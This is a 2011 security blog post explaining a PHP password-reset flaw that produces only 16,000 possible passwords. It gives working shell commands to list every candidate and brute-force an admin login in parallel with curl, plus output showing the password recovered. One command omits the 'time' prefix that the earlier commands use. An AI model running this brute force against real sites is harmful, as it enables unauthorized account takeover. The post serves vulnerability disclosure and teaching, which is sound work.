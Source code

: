 ```yaml
---
id: 1059
title: 'Hacking crappy password resets (part 2)'
date: '2011-03-15T08:09:41-05:00'
author: 'Ron Bowes'
layout: post
guid: 'http://www.skullsecurity.org/blog/?p=1059'
permalink: /2011/hacking-crappy-password-resets-part-2
categories:
    - Hacking
    - Passwords
    - Tools
---
```


Hey,

In my <a href='/blog/2011/hacking-crappy-password-resets-part-1'>last post</a>, I showed how we could guess the output of a password-reset function with a million states. While doing research for that, I stumbled across some software that had a mere 16,000 states. I will show how to fully compromise this software package remotely using the password reset. 
<!--more-->
<h2>The code</h2>
First, let's take a look at the code:
<pre>
<font color="#ffa500">&lt;?php</font><br>
&nbsp;&nbsp;<font color="#ffff60"><b>if</b></font>&nbsp;<font color="#ffa500">(</font><font color="#40ffff">strtolower</font><font color="#ffa500">(</font><font color="#ffff60"><b>$</b></font><font color="#40ffff">cfgrow</font><font color="#ffa500">[</font>'<font color="#ffa0a0">email</font>'<font color="#ffa500">])</font><font color="#ffff60"><b>==</b></font><font color="#40ffff">strtolower</font><font color="#ffa500">(</font><font color="#ffff60"><b>$</b></font><font color="#40ffff">_POST</font><font color="#ffa500">[</font>'<font color="#ffa0a0">reminderemail</font>'<font color="#ffa500">]))</font><br>
&nbsp;&nbsp;<font color="#ffa500">{</font><br>
&nbsp;&nbsp;&nbsp;&nbsp;<font color="#80a0ff">// generate a random new pass</font><br>
&nbsp;&nbsp;&nbsp;&nbsp;<font color="#ffff60"><b>$</b></font><font color="#40ffff">user_pass</font>&nbsp;<font color="#ffff60"><b>=</b></font>&nbsp;<font color="#40ffff">substr</font><font color="#ffa500">(</font>&nbsp;<font color="#40ffff">MD5</font><font color="#ffa500">(</font>'<font color="#ffa0a0">time</font>'&nbsp;<font color="#ffff60"><b>.</b></font>&nbsp;<font color="#40ffff">rand</font><font color="#ffa500">(</font><font color="#ffa0a0">1</font>, <font color="#ffa0a0">16000</font><font color="#ffa500">))</font>, <font color="#ffa0a0">0</font>, <font color="#ffa0a0">6</font><font color="#ffa500">)</font>;<br>
&nbsp;&nbsp;&nbsp;&nbsp;<font color="#ffff60"><b>$</b></font><font color="#40ffff">query</font>&nbsp;<font color="#ffff60"><b>=</b></font>&nbsp;&quot;<font color="#ffa0a0">update config set password=MD5('</font><font color="#ffff60"><b>$</b></font><font color="#40ffff">user_pass</font><font color="#ffa0a0">') where [...]</font>&quot;<br>
&nbsp;&nbsp;&nbsp;&nbsp;<font color="#ffff60"><b>if</b></font><font color="#ffa500">(</font><font color="#40ffff">mysql_query</font><font color="#ffa500">(</font><font color="#ffff60"><b>$</b></font><font color="#40ffff">query</font><font color="#ffa500">))</font><br>
&nbsp;&nbsp;&nbsp;&nbsp;<font color="#ffa500">{</font><br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; <font color="#80a0ff">// ...</font><br>
<font color="#ffa500">?&gt;</font><br>
</pre>

<h2>The vulnerability</h2>
The vulnerability lies in the password generation:
<pre>&nbsp;&nbsp;&nbsp;&nbsp;<font color="#ffff60"><b>$</b></font><font color="#40ffff">user_pass</font>&nbsp;<font color="#ffff60"><b>=</b></font>&nbsp;<font color="#40ffff">substr</font><font color="#ffa500">(</font>&nbsp;<font color="#40ffff">MD5</font><font color="#ffa500">(</font>'<font color="#ffa0a0">time</font>'&nbsp;<font color="#ffff60"><b>.</b></font>&nbsp;<font color="#40ffff">rand</font><font color="#ffa500">(</font><font color="#ffa0a0">1</font>, <font color="#ffa0a0">16000</font><font color="#ffa500">))</font>, <font color="#ffa0a0">0</font>, <font color="#ffa0a0">6</font><font color="#ffa500">)</font>;<br></pre>

The new password generated is the md5() of the literal string 'time' (*not* the current time, the *word* "time") concatenated with one of 16,000 random numbers, then truncated to 6 bytes. We can very easily generate the complete password list on the commandline:
<pre>$ seq <font color="#ffa0a0">1</font>&nbsp;<font color="#ffa0a0">16000</font>&nbsp;| xargs <font color="#ffa500">-I</font>&nbsp;XXX sh <font color="#ffa500">-c</font>&nbsp;<font color="#ffff60"><b>&quot;</b></font><font color="#ffa0a0">echo timeXXX | md5sum | cut -b1-6</font><font color="#ffff60"><b>&quot;</b></font></pre>

or, another way:
<pre>$ <font color="#ffff60"><b>for </b></font>i <font color="#ffff60"><b>in</b></font>&nbsp;<font color="#ffa500">`seq </font><font color="#ffa0a0">1</font><font color="#ffa500">&nbsp;</font><font color="#ffa0a0">16000</font><font color="#ffa500">`</font>; <font color="#ffff60"><b>do</b></font>&nbsp;<font color="#ffff60"><b>echo</b></font><font color="#ffa0a0">&nbsp;</font><font color="#ffff60"><b>&quot;</b></font><font color="#ffa0a0">time</font><font color="#ff80ff">$i</font><font color="#ffff60"><b>&quot;</b></font><font color="#ffa0a0">&nbsp;</font><font color="#ffff60"><b>|</b></font>&nbsp;md5sum <font color="#ffff60"><b>|</b></font>&nbsp;cut -b1<font color="#ffa0a0">-6</font><br></pre>

(By the way, for more information on using xargs, check out a really awesome blog posting called <a href='http://teddziuba.com/2010/10/taco-bell-programming.html'>Taco Bell Programming</a> - it's like real programming, but you can't legally call it "beef")

In either case, you'll wind up with 16,000 different passwords in a file. If you want to speed up the eventual bruteforce, you can eliminate collisions:
<pre>$ seq 1 16000 | xargs -I XXX sh -c "echo XXX | md5sum | cut -b1-6" | sort | uniq</pre>

If you do that, you'll wind up with 15,993 different passwords, ranging from '000b64' to 'fffcc0'. Now all that's left is to try these 15,993 passwords against the site! 

<h2>The attack</h2>
You can do this attack any number of ways. You can script up some Perl/Ruby/PHP, you can use a scanner like Burp Suite, or, if you're feeling really adventurous, you can write a quick config file for <a href='http://nmap.org/svn/scripts/http-enum.nse'>http-enum.nse</a>. If anybody takes the time to replicate this with http-enum.nse, you'll win an Internet from me. I promise. 

But why bother with all these complicated pieces of software when we have bash handy? All we need to do is try all 15,993 passwords using wget/curl/etc and look for the one page that's different. Done! 

So, to download a single page, we'd use:
<pre>$ curl <font color="#ffa500">-s</font>&nbsp;<font color="#ffa500">-o</font>&nbsp;XXX.out <font color="#ffa500">-d</font>&nbsp;<font color="#ffff60"><b>&quot;</b></font><font color="#ffa0a0">user=admin&amp;password=XXX</font><font color="#ffff60"><b>&quot;</b></font>&nbsp;<font color="#ffff60"><b>&lt;</b></font>site<font color="#ffff60"><b>&gt;</b></font>/admin/?<font color="#40ffff">x</font>=login<br>
</pre>

This will create a file called XXX.out on the filesystem, which is the output from a login attempt with the password XXX. Now we use xargs to do that for every password:
<pre>$ cat passwords.txt | xargs <font color="#ffa500">-P32</font>&nbsp;<font color="#ffa500">-I</font>&nbsp;XXX curl <font color="#ffa500">-s</font>&nbsp;<font color="#ffa500">-o</font>&nbsp;XXX.out <font color="#ffff60"><b>\</b></font><br>
&nbsp;&nbsp;<font color="#ffa500">-d</font>&nbsp;<font color="#ffff60"><b>&quot;</b></font><font color="#ffa0a0">user=admin&amp;password=XXX</font><font color="#ffff60"><b>&quot;</b></font>&nbsp;<font color="#ffff60"><b>&lt;</b></font>site<font color="#ffff60"><b>&gt;</b></font>/admin/?<font color="#40ffff">x</font>=login<br>
</pre>

Which will, in 32 parallel processes, attempt to log in with each password and write the result to a file named &lt;password&gt;.out. Now all we have to do figure out which one's different! After waiting for it to finish (or not.. it takes about 5-10 minutes), I check the folder:

<pre>$ md5sum *.out | head 
96ffbb1ba380de9fc9e7a3fe316ff631  000176.out
96ffbb1ba380de9fc9e7a3fe316ff631  0014c2.out
96ffbb1ba380de9fc9e7a3fe316ff631  001e7e.out
96ffbb1ba380de9fc9e7a3fe316ff631  002035.out
96ffbb1ba380de9fc9e7a3fe316ff631  00217c.out
96ffbb1ba380de9fc9e7a3fe316ff631  002c47.out
96ffbb1ba380de9fc9e7a3fe316ff631  003b9e.out
96ffbb1ba380de9fc9e7a3fe316ff631  004bff.out
96ffbb1ba380de9fc9e7a3fe316ff631  0057b8.out
96ffbb1ba380de9fc9e7a3fe316ff631  008dea.out</pre>

Sure enough, it's tried all the passwords and they all seemed to download the same page! Now we use grep -v to find the one and only download that's different:
<pre>$ md5sum *.out | grep -v 96ffbb1ba380de9fc9e7a3fe316ff631
d41d8cd98f00b204e9800998ecf8427e  b19261.out</pre>

And bam! We now know the password is "b19261". 

<h2>Conclusion</h2>
So there you have it - abusing a password reset to log into an account you shouldn't. And remember, even though we didn't test this with 1,000,000 possible passwords like last week's blog, it would only take about 60 times as long - so instead of a few minutes, it'd be a few hours. And as I said last week, that million-password reset form was actually pretty common. 

And in case you think this is hocus pocus or whatever, I wrote the code shown here live, on stage, at Winnipeg Code Camp. It's towards the end of <a href='http://vimeo.com/20718776'>my talk</a>.
